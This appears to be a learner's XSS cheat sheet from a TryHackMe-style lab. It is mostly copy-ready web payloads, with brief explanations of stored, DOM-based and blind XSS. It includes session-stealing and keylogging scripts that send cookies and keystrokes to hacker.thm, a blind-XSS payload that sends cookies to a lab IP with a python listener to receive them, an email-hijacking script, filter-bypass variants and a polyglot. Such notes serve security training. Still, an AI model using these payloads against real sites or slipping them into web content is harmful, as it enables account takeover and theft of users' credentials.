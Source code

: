 # XSS Payloads

Proof Of Concept:

```

<script>alert('XSS');</script>

```

Session Stealing:

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

```


Key Logger: ^dbf09c

```

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

```

Business Logic:

```

<script>user.changeEmail('attacker@hacker.thm');</script>


```

# Stored XSS

A blog `website` that **allows users to post comments.** Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be **stored in the database**, and every other user now visiting the article will have the JavaScript **run in their browser**.

# DOM Based XSS

DOM Based XSS is where the JavaScript execution happens **directly in the browser** without any new pages being loaded or data submitted to backend code. `Execution occurs` when the website JavaScript code acts on **input or user interaction**


The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. **The contents of the hash aren't checked** for malicious code, allowing an **attacker to inject JavaScript**of their choosing onto the webpage.

```

<sscriptcript>alert('THM');</sscriptcript>

```

```
"><script>alert('THM');</script> 

```

To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event
```

<img src="/images/cat.jpg" onload="alert('THM');">

```

You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "window.location.x" parameters

Unsafe JavaScript method is good to look  `eval()`

# Blind XSS
[xsshunter](https://xsshunter.com/)

## input
```

"><script>alert('THM');</script>

```
## textarea

```
</textarea><script>alert('THM');</script>

```

## Polyglots:

```
jaVasCript:/*/*`/*\`/*'/*"/**/(/**/onerror=alert('THM'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

```

# Blind XSS
```
python3 -m http.server 8000

```

```
</textarea><script>fetch('http://10.9.9.67:8000/?cookie=' + btoa(document.cookie));</script>

```